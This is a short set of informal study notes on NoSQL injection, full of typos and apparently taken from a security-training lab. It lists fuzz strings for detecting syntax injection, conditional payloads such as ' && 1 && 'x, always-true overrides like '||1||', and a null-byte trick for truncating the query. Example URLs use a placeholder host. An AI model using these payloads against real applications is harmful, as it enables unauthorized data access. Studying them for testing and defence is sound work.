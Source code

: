 # NOSQLi

# TYPES:
### Syntax Injection
### OPerator INjection


##NOSQL SYNTAX NJECTION
'"`{
;$Foo}
$Foo \xYZ  -------> if request is from URL 

for JSON --> '\"`{\r;$Foo}\n$Foo \\xYZ\u0000

the above strings can be used to test fot noslqi if detectable changes or eroor is caused

now that we have found the presence of Nosqli we test 
whci characters are processed we can try to inject all specula charcter like ' " etc to break nosqli syntax
STEp2 -->confirm conditional behavior
' && 0 && 'x and ' && 1 && 'x as    -----> we can use the followinf like methods to detect conditional behaviour
usage --> https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x

step3 try to override the suntac like we do in sqli which alway evaluated to be ture and gives us all the data
we can use 
'||1||'
or 
this.category == 'fizzy'||'1'=='1'


NB--->SUPPOSE SOMETIME WE WANT TO BREAK OUT OF SYNTX OR COMMENT THE REST OF THE PARTS THEM WE MAY USE NULL BYTES AFTER ' THAT WILL INGNORE THE REST OF THE PART
LIKE %00 CAN BE USED ----> https://insecure-website.com/product/lookup?category=fizzy'%00

